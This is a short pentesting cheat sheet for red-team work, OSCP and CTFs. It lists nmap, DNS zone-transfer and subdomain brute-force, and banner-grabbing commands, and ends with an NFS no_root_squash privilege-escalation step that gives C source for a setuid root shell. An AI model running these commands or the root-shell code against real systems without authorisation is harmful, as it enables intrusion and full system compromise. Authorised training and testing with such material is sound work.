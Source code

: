 ```yaml
---
tags:
  - pentesting
---
```

Convenient commands for Pentesting / red-team engagements, OSCP, and CTFs.

## Reconnaissance / Enumeration
### Extracting Live IPs from Nmap Scan
```bash
nmap 10.1.1.1 --open -oG scan-results; cat scan-results | grep "/open" | cut -d " " -f 2 > exposed-services-ips
```

### Simple Port Knocking
```bash
for x in 7000 8000 9000; do nmap -Pn –host_timeout 201 –max-retries 0 -p $x 1.1.1.1; done
```

### DNS lookups, Zone Transfers & Brute-Force
```bash
whois domain.com
dig {a|txt|ns|mx} domain.com
dig {a|txt|ns|mx} domain.com @ns1.domain.com
host -t {a|txt|ns|mx} megacorpone.com
host -a megacorpone.com
host -l megacorpone.com ns1.megacorpone.com
dnsrecon -d megacorpone.com -t axfr @ns2.megacorpone.com
dnsenum domain.com
nslookup -> set type=any -> ls -d domain.com
for sub in $(cat subdomains.txt);do host $sub.domain.com|grep "has.address";done
```

### Banner Grabbing
```bash
nc -v $TARGET 80
telnet $TARGET 80
curl -vX $TARGET
```

### NFS Exported Shares
List NFS exported shares: 
```bash
showmount -e 192.168.110.102
```

...and check if `'rw,no_root_squash'` is present. If it is present, compile the below `sid-shell.c`:
```bash
#include <unistd.h>

main( int argc, char ** argv, char ** envp )
{
    setgid(0); setuid(0); system("/bin/bash", argv, envp);
    return 0;
}
```
